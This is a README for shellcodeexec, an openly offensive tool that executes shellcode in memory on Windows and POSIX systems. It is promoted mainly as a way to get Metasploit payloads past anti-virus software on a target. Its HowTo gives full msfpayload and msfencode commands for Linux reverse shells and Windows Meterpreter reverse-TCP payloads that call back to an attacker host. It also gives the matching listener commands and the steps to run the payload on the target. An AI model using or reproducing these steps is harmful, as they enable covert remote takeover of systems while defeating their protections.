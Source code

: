 # Short description

shellcodeexec is a small script to execute in memory a sequence of opcodes.

## Background

Most of the shellcode launchers out there, including proof of concepts part of many "security" books, detail how to allocate a memory page as readable/writable/executable on POSIX systems, copy over your shellcode and execute it. This works just fine. However, it is limited to POSIX, does not necessarily consider 64-bit architecture and Windows systems.

## Description

This script and the relevant project files (Makefile and Visual Studio files) allow you to compile the tool once then run your shellcode across different architectures and operating systems.

Moreover, it solves a common real world issue: the target system's anti virus software blocking a Metasploit-generated payload stager (either EXE of ELF). Take for instance the following command line:

    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=process LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/shikata_ga_nai -o /tmp/payload.exe -t exe

This generates a Metasploit payload stager, payload.exe, that as soon as it lands on the AV-protected target system is recognized as malicious and potentially blocked (depending on the on-access scan settings) by many anti virus products. At the time of writing this text, 21 out 41 anti viruses detect it as malicious - http://goo.gl/HTw7o. By encoding it multiple times with msfencode, less AV softwares detect it, still a lot.

I have been surfing the Net and found some interesting tutorials and guides about packing, compressing, obfuscating and applying IDA-foo to portable executables et similar in order to narrow down the number of AV products that can detect it as a malicious file. This is all interesting, but does not stop few hard-to-die anti viruses to detect your backdoor.

So the question is, how cool would it be to have a final solution to avoid all this hassle? This is exactly where this tool comes into play!

## Features

shellcodeexec:

* Can be compiled and works on POSIX (Linux/Unices) and Windows systems.
* Can be compiled and works on 32-bit and 64-bit architectures.
* As far as I know, no AV detect it as malicious.
* Works in DEP/NX-enabled environments: it allocates the memory page where it stores the shellcode as +rwx - Readable Writable and eXecutable.
* It supports alphanumeric encoded payloads: you can pipe your binary-encoded shellcode (generated for instance with Metasploit's msfpayload) to Metasploit's msfencode to encode it with the alpha_mixed encoder. Set the BufferRegister variable to EAX registry where the address in memory of the shellcode will be stored, to avoid get_pc() binary stub to be prepended to the shellcode.
* Spawns a new thread where the shellcode is executed in a structure exception handler (SEH) so that if you wrap shellcodeexec into your own executable, it avoids the whole process to crash in case of unexpected behaviours.

## HowTo

1. Generate a Metasploit shellcode and encode it with the alphanumeric encoder. For example for a Linux target:
```
$ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
Or for a Windows target:
```
$ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
2. Execute the Metasploit multi/handler listener on your machine. For example for a Linux target:
```
$ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
Or for a Windows target:
```
$ msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
3. Execute the alphanumeric-encoded shellcode with this tool. For example on the Linux target:
```
$ ./shellcodeexec <msfencode's alphanumeric-encoded payload>
```
Or, on the Windows target:
```
C:\WINDOWS\Temp>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>
```

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301  USA
